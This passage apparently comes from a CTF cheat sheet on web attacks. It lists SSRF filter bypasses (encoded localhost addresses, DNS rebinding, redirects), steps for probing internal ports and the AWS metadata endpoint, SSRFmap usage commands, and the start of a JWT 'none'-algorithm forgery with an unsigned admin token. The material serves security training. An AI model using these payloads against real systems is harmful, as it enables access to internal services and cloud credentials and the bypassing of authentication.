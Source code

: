 **Bypass Techniques**:
```bash
# IP encoding
http://2130706433 (decimal: 127.0.0.1)
http://0x7f000001 (hex: 127.0.0.1)
http://0177.0000.0000.0001 (octal: 127.0.0.1)

# URL encoding
http://127.0.0.1 → http://%31%32%37.%30.%30.%31

# DNS rebinding
http://spoofed.burpcollaborator.net

# Redirect
Create URL shortener pointing to localhost
```

**Use Case Example**:
```
Challenge: URL preview feature (fetch & display webpage)
Input: http://example.com

Steps:
1. Test SSRF: http://127.0.0.1
2. If works, scan ports: http://127.0.0.1:8080
3. Try AWS metadata: http://169.254.169.254/latest/meta-data/
4. Access internal service: http://localhost:8080/admin
5. Flag might be in internal endpoint
```

**Tool**:
```bash
# SSRFmap
git clone https://github.com/swisskyrepo/SSRFmap
python3 ssrfmap.py -r request.txt -p url
```

**Reference**: `~/ctf-tools/PayloadsAllTheThings/Server Side Request Forgery/`

---

### 🔑 JWT Attacks

**What it is**: Exploiting JSON Web Token vulnerabilities

**JWT Structure**:
```
header.payload.signature
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

**Attack Types**:

1. **None Algorithm Attack**:
```python
# Change alg to "none"
{
  "alg": "none",
  "typ": "JWT"
}

# Remove signature (keep the dot)
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```
